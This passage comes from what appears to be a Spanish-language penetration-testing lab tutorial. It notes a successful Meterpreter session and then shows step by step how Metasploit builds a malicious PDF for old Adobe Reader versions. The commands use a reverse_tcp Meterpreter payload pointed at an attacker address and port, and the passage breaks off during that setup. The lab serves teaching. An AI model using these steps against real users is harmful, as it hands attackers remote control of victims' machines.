 <br>

Si todo ha funcionado correctamente, en Kali Linux dentro de Metasploit deberíamos ver una sesión activa de **Meterpreter**, lo que indica que la víctima ha ejecutado el payload con éxito. Realiza algunas pruebas básicas dentro de Meterpreter.


### Payload en un PDF
En este ejercicio, se generará un **PDF malicioso** que, al ser abierto en una versión vulnerable de **Adobe Reader (8.x o 9.x)**, ejecutará un payload y establecerá una conexión reversa hacia la máquina atacante.

Abrimos Metasploit y buscamos exploits relacionados con PDF y Adobe Reader.
```
msf6 > search adobe_pdf
```
<p align="center">
  <img src="https://github.com/ElChe1/Explotation-Lab/blob/main/Payload-Creation/media/img/search_adobe.png" alt="search_adobe" style="border-radius: 10px;">
</p>

<br>

Entre los resultados, seleccionamos un exploit adecuado, por ejemplo.
```
msf6 > use exploit/windows/fileformat/adobe_pdf_embedded_exe
```
<p align="center">
  <img src="https://github.com/ElChe1/Explotation-Lab/blob/main/Payload-Creation/media/img/use_exploit.png" alt="use_exploit" style="border-radius: 10px;">
</p>

<br>

Una vez seleccionado el exploit, configuramos los parámetros:
```
msf6 > set filename Actividad.pdf
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost 192.168.10.4
msf6 > set lport 4444
```
<p align="center">